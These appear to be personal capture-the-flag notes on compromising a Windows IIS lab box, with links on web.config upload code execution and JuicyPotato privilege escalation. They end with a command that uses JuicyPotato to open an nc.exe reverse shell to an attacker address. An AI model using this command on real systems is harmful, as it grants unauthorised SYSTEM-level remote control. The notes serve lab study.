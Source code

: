 ### Modifying the raft-small-extensions.txt wordlist from SecLists, removing the dot to avoid Burp from URL-encoding it
```
cp /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-extensions.txt .
sed -i 's/.//' raft-small-extensions.txt
```

### Google "iis config rce"
* https://soroush.secproject.com/blog/tag/unrestricted-file-upload/
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config
* https://0xdf.gitlab.io/2018/10/27/htb-bounty.html#transferaspx--uploadedfiles

### windows file transfter
https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/

`certutil` is available

## Priv
### So simple
`whoami /priv`

### Only worked payload 
https://github.com/ohpe/juicy-potato

### Googling how to use the correct payload
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato

```
Get-Service # PSH
sc query    # CMD
# To get the clsid and replace it
https://github.com/ohpe/juicy-potato/tree/master/CLSID

JuicyPotato.exe  -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\temp\nc.exe -e cmd.exe 10.10.x.x 6789" -t *
```
